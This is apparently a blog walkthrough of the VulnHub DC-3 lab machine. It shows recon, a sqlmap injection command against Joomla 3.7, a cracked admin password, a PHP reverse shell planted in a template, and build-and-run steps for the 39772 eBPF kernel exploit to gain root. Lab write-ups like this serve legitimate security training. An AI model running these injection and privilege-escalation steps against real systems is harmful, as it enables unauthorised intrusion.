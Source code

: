 ```yaml
---
layout: "post"
title: "DC 3 Walkthrough"
categories: [vulnhub, DC-Series]
tags: [dc-3, easy, joomla, CVE]
---
```

DC-3 was an easy machine. The website was hosted on `Joomla`. There was a `sqli exploit` that gives the admin password. By using an admin panel upload the shell. Priv esc using `CVE`.  

# Summary

- Portscan
- `Gobuster` to findout directories
- Search exploit
- Use `sqlmap` to get admin password
- Crack the password using `John`
- Login to admin panel and inject reverse shell
- Get reverse shell
- Exploit Kernel using CVE 
- Getting Root
- Flag

# Recon

## Portscan

```
Nmap scan report for 192.168.1.7
Host is up (0.00030s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home

```
## Joomla

When I browse the website, I don't find out anything interesting.
![mainpage](/assets/img/dc-3/mainpage.png)
So, I started the gobuster to find out directories.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.1.7 -x php,txt,html

/images (Status: 301)
/media (Status: 301)
/templates (Status: 301)
/modules (Status: 301)
/index.php (Status: 200)
/plugins (Status: 301)
/bin (Status: 301)
/includes (Status: 301)
/language (Status: 301)
/README.txt (Status: 200)
/components (Status: 301)
/cache (Status: 301)
/libraries (Status: 301)
/tmp (Status: 301)
/LICENSE.txt (Status: 200)
/layouts (Status: 301)
/administrator (Status: 301)
/configuration.php (Status: 200)
/htaccess.txt (Status: 200)
/cli (Status: 301)
/server-status (Status: 403)

```
# Sqli
The `README.txt` file revels the webserver is running Joomla and its version is 3.7.
![readme](/assets/img/dc-3/readme.png)
I search the exploit on searchsploit and get the exploit for Joomla. 
![searchsploit joomla](/assets/img/dc-3/searchsploit-joomla.png)

The exploit `php/webapps/42033.txt` tells that version is vulnerable to sqli.
So as per exploit I run sqlmap and get admin hash.

```bash
sqlmap -u "http://192.168.1.7/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T '#__users' -C name,password --dump 
```

>admin:$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu

I use `John` to crack the password.
![john](/assets/img/dc-3/john.png)

>admin:snoopy

# Getting reverse shell.
Now I have username and password, I use those to log in to `Joomla`. By using admin panel I can edit the template files. So I paste the source code of php-reverse-shell in error.php of beez3 template and
get a reverse shell.
![shell](/assets/img/dc-3/shell.png)
![nc](/assets/img/dc-3/nc.png)

# Getting Root

I upload [linpeas](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh) on server and run it. 
![ubuntu](/assets/img/dc-3/ubuntu.png)
The exploit is available on `searchsploit` for *ubuntu 16.04*
![exploit](/assets/img/dc-3/searchsploit-exploit.png)

I download the [exploit](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip) from net and transfer to server. By executing the exploit I get root access.
```bash
unzip 39772.zip
cd 39772
tar xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit/
./compile.sh
./doubleput
```
![1](/assets/img/dc-3/1.png)
![2](/assets/img/dc-3/2.png)

# The Flag
![root](/assets/img/dc-3/root.png)


 

